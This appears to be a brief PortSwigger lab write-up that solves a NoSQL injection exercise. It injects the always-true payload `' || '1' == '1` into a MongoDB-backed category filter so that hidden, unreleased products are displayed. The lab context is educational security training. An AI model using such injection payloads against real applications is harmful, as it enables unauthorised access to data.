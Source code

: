 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fe4268c0-9213-4fe3-9ac4-924358e0a73a)

## Solution :

When we select a category, the URL looks as follows.

```
https://0afa00c303a959438002801500a90058.web-security-academy.net/filter?category=Pets
```

The backend MongoDB query might look something like - 
```mongodb
this.category == 'fizzy'
```

So we can use operator injection to evaluate the query to true & display all the products(both released & not released). - `' || '1' == '1`

The query will now be executed as follows
```mongodb
this.category == 'fizzy' || '1'=='1'
```

Now we can see all the items & the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a02ad56b-22cb-44d0-a9ff-1e523ec88ee3)
